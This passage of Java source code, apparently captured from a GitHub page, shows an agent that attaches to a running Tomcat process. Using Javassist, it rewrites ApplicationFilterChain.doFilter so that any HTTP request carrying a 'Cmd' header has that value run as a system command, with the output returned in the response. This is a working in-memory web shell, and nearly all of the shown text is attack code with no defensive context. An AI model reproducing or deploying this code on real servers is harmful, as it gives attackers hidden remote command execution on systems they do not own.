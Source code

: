 ```java
        for (VirtualMachineDescriptor desc : list){
            String name = desc.displayName();
            String pid = desc.id();

            if (name.contains("org.apache.catalina.startup.Bootstrap")){
//            if (name.contains("com.example.springbootdemo.SpringBootDemoApplication")){
                VirtualMachine vm = VirtualMachine.attach(pid);
                String path = new File("JavaAgentDemo.jar").getAbsolutePath();
                vm.loadAgent(path);
                vm.detach();
                System.out.println("attach ok");
                break;
            }
        }
    }
}

class TomcatTransformer implements ClassFileTransformer{
    public static final String CLASSNAME = "org.apache.catalina.core.ApplicationFilterChain";
    public static final String CLASSMETHOD = "doFilter";

    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
        try {
            ClassPool pool = ClassPool.getDefault();
            if (classBeingRedefined != null) {
                ClassClassPath ccp = new ClassClassPath(classBeingRedefined);
                pool.insertClassPath(ccp);
            }
            if (className.replace("/", ".").equals(CLASSNAME)) {
                CtClass clazz = pool.get(CLASSNAME);
                CtMethod method = clazz.getDeclaredMethod(CLASSMETHOD);
                method.insertBefore("javax.servlet.http.HttpServletRequest httpServletRequest = (javax.servlet.http.HttpServletRequest) request;\n" +
                        "String cmd = httpServletRequest.getHeader(\"Cmd\");\n" +
                        "if (cmd != null){\n" +
                        "    Process process = Runtime.getRuntime().exec(cmd);\n" +
                        "    java.io.InputStream input = process.getInputStream();\n" +
                        "    java.io.BufferedReader br = new java.io.BufferedReader(new java.io.InputStreamReader(input));\n" +
                        "    StringBuilder sb = new StringBuilder();\n" +
                        "    String line = null;\n" +
                        "    while ((line = br.readLine()) != null){\n" +
                        "        sb.append(line + \"\\n\");\n" +
                        "    }\n" +
                        "    br.close();\n" +
                        "    input.close();\n" +
                        "    response.getOutputStream().print(sb.toString());\n" +
                        "    response.getOutputStream().flush();\n" +
                        "    response.getOutputStream().close();\n" +
                        "}");
                byte[] classbyte = clazz.toBytecode();
                clazz.detach();
                return classbyte;
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
        return classfileBuffer;
    }
}
```